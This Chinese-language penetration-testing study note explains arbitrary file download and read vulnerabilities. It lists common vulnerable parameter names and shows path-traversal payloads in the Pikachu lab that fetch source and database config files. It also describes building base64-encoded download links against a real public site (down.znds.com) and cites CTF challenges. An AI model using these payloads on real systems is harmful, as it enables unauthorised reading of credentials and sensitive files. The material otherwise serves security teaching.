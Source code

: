 ![](https://gitee.com/YatJay/image/raw/master/img/202203140952733.png)

# 涉及知识

## 文件下载&读取

一些网站由于业务需求，往往需要提供文件查看或文件下载功能，但若对用户查看或下载的文件不做限制，则恶意用户就能够查看或下载任意敏感文件，这就是文件查看与下载漏洞。

尽管文件下载漏洞不会直接触及网站权限，但是会泄露敏感信息，间接导致权限丢失

### 产生原因

1. 存在读文件的函数

2. 读取文件的路径用户可控且未校验或校验不严

3. 输出了文件内容

### 利用



#### 或读取下载常见文件



#### 下载或读取敏感文件

数据库配置文件

各种接口等文件

密匙信息文件

#### 如何获取要下载的文件路径

1. 扫描工具爬行或扫描地址
2. 下载好的文件代码中去分析路径或包含文件路径

### 检测

分白盒、黑盒测试，这里重点讲**手工看参数值及功能点**









### 文件名、参数值、目录符号

```
• download.php?path=
• download.php?file=
• down.php?file=
• data.php?file=
• readfile.php?file=
• read.php?filename=
```







# 演示案例

## Pikachu-文件下载测试——参数值发现漏洞

地址：http://localhost/pentest/pikachu/vul/unsafedownload/down_nba.php

点击球员的名字即可下载图片文件，下载链接(下载时产生的链接)如下

```
http://localhost/pentest/pikachu/vul/unsafedownload/execdownload.php?filename=ai.png
```

而页面中图片的地址为(右键复制图像地址)

```
http://localhost/pentest/pikachu/vul/unsafedownload/download/ai.png
```

也就是说调用`execdownload.php`并传递GET参数来下载文件，设定是去`download`目录下查找提交的文件名，因此如果要下载`execdownload.php`文件，`download`目录下并没有此文件，需要跳级，则构造的下载链接如下

```
http://localhost/pentest/pikachu/vul/unsafedownload/execdownload.php?filename=../execdownload.php
```

访问后即可下载上述提到的源码文件

![](https://gitee.com/YatJay/image/raw/master/img/202203141021715.png)

同理，通过目录扫描、已下载文件内容提及等信息就可以下载其他文件，包括敏感文件

比如下载配置文件`config.inc.php`

```
http://localhost/pentest/pikachu/vul/unsafedownload/execdownload.php?filename=../../../inc/config.inc.php
```

![](https://gitee.com/YatJay/image/raw/master/img/202203141025073.png)

## Zdns-文件下载真实测试——功能点发现漏洞

地址：http://down.znds.com/

得到下载文件的链接如下

```
http://down.znds.com/getdownurl/?s=L3VwZGF0ZS8yMDIyLTAyLTIzL2RhbmdiZWltYXJrZXRfNC4zLjZfMjc5X3puZHMuYXBr
```

其中GET方法提交的s参数值使用了base64加密

解密后结果为

```
http://down.znds.com/getdownurl/?s=/update/2022-02-23/dangbeimarket_4.3.6_279_znds.apk
```

即下载的文件设定是从服务器的update目录下查找，再下载

如果要下载其他文件，获取文件路径之后，还需要使用base64将路径进行加密

下载漏洞在哪里测?下载漏洞怎么判断存在

1. 拿到下载文件的下载链接URL，一般是base64加密，解密后观察路径规律

2. 然后再拿到你想下载的文件的路径，对下载文件路径使用base64加密后构造下载链接



## 小米路由器-文件读取真实测试-漏洞



## RoarCTF2019-文件读取真题复现-比赛

地址：https://buuoj.cn/challenges#%5BRoarCTF%202019%5DEasy%20Java



## 百度杯2017二月-Zone真题复现-比赛拓展



爬虫扫描地址-分析参数名参数值-文件操作安全-对应脚本



修改提交方式测试-读取WEB配置文件WEB-INF/web.xml

访问读取对应地址-访问读取flag对应class文件-(WEB-INF/classes/com/wm/ctf/FlagController.class)







# 涉及资源

https://www.seebug.org/vuldb/ssvid-98122

https://www.ichunqiu.com/battalion?t=1&r=57475

JavaWeb实现文件下载：https://blog.csdn.net/Cheng_May/article/details/78600833：

https://buuoj.cn/challenges#%5BRoarCTF%202019%5DEasy%20Java





